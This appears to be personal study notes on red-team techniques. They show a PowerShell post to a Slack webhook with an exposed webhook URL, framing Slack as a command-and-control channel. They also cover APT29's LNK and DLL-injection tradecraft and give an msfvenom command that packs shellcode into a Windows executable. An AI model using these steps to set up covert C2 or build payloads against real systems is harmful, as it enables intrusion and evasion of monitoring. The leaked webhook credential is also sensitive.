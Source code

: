 # looking at ippsec techniques

# setting slack web hooks and C2
make the channel private
webhook integrations
https://hooks.slack.com/services/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

$body = COnvertTo-Json @{
    pretext = "Automated"
    text = "Hi there"
}
Invoke-RestMethod https://hooks.slack.com/services/
B0559PG99FC/Ej96lpmHngg1OV7htEKcfk3n -Method Post -Body $body -ContentType "application/json"

![](message_passed.png)

### using this as a C2

https://3xpl01tc0d3r.blogspot.com/2018/06/how-to-use-slack-as-c2-sever.html

using a slackshell


# analysing APT 29

https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/

APT 29 uses lnk files in a zip format

ippsec.rocks

uses dll injection into microsoft updater

we can create one by cat shellcode.bin | msfvenom -p - -f exe -a x64 --platform win -o pleasesubscribe.exe

we can open this up in x64dbg
needs to be done in x64dbg file
